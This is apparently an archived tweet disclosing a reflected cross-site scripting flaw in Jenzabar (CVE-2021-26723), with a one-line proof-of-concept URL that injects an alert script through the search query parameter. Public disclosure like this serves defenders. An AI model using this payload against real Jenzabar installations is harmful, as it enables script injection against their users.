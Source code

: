 
# sec715
**https://twitter.com/sec715/status/1358440787843772417 _at 2021-02-07, 15:41:37_**
<blockquote>
XSS in Jenzabar (CVE-2021-26723)

POC:
/ics?tool=search&amp;query="&gt;&lt;script&gt;alert('xss')&lt;/script&gt;

#XSS https://t.co/YWRVQjP6Dg
</blockquote>

<table><tr>